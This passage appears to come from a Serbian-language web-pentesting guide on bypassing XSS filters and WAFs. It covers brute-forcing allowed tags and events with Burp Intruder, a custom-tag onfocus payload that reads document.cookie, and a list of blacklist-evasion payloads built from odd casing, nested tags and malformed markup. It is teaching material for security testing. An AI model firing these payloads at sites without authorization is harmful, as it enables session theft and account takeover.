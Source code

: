 ### Bruteforce oznaka/događaja

Idite na [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) i kliknite na _**Kopiraj oznake u međuspremnik**_. Zatim, pošaljite sve njih koristeći Burp intruder i proverite da li su neke oznake otkrivene kao zlonamerne od strane WAF-a. Kada otkrijete koje oznake možete koristiti, možete **bruteforce-ovati sve događaje** koristeći validne oznake (na istoj veb stranici kliknite na _**Kopiraj događaje u međuspremnik**_ i pratite isti postupak kao pre).

### Prilagođene oznake

Ako niste pronašli nijednu validnu HTML oznaku, možete pokušati da **kreirate prilagođenu oznaku** i izvršite JS kod sa atributom `onfocus`. U XSS zahtevu, morate završiti URL sa `#` da biste naveli stranicu da se **fokusira na taj objekat** i **izvrši** kod:

```
/?search=<xss+id%3dx+onfocus%3dalert(document.cookie)+tabindex%3d1>#x
```

### Bypassovanje crne liste

Ako se koristi neka vrsta crne liste, možete pokušati da je zaobiđete nekim smešnim trikovima:

```javascript
//Random capitalization
<script> --> <ScrIpT>
<img --> <ImG

//Double tag, in case just the first match is removed
<script><script>
<scr<script>ipt>
<SCRscriptIPT>alert(1)</SCRscriptIPT>

//You can substitude the space to separate attributes for:
/
/*%00/
/%00*/
%2F
%0D
%0C
%0A
%09

//Unexpected parent tags
<svg><x><script>alert('1'&#41</x>

//Unexpected weird attributes
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script      ///Note the newline
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>

//Not closing tag, ending with " <" or " //"
<iframe SRC="javascript:alert('XSS');" <
<iframe SRC="javascript:alert('XSS');" //

//Extra open
<<script>alert("XSS");//<</script>

//Just weird an unexpected, use your imagination
<</script/script><script>
<input type=image src onerror="prompt(1)">
```